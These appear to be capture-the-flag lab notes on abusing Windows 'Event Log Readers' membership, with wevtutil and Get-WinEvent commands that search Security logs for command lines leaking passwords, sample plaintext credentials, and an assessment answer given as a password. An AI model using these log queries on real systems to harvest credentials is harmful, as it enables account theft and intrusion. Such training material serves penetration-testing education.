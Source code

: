 # Event Log Readers

In this group we can basically look at command history which may contain credentials and other sensitive information.

**Confirming Group Membership**

```sh
C:\htb> net localgroup "Event Log Readers"

Alias name     Event Log Readers
Comment        Members of this group can read event logs from local machine

Members

-------------------------------------------------------------------------------
logger
The command completed successfully.
```

**Searching Security Logs Using wevtutil**

```powershell
PS C:\htb> wevtutil qe Security /rd:true /f:text | Select-String "/user"

        Process Command Line:   net use T: \\fs01\backups /user:tim MyStr0ngP@ssword
```

**Passing Credentials to wevtutil**

```sh
C:\htb> wevtutil qe Security /rd:true /f:text /r:share01 /u:julie.clay /p:Welcome1 | findstr "/user"
```

**Searching Security Logs Using Get-WinEvent**

```powershell-session
PS C:\htb> Get-WinEvent -LogName security | where { $_.ID -eq 4688 -and $_.Properties[8].Value -like '*/user*'} | Select-Object @{name='CommandLine';expression={ $_.Properties[8].Value }}

CommandLine
-----------
net use T: \\fs01\backups /user:tim MyStr0ngP@ssword
```

## Assesment

**Using the methods demonstrated in this section find the password for the user mary.**

```powershell
wevtutil qe Security /rd:true /f:text | Select-String "/user"
```

<figure><img src="../../../.gitbook/assets/image (14).png" alt=""><figcaption><p>W1ntergreen_gum_2021!</p></figcaption></figure>
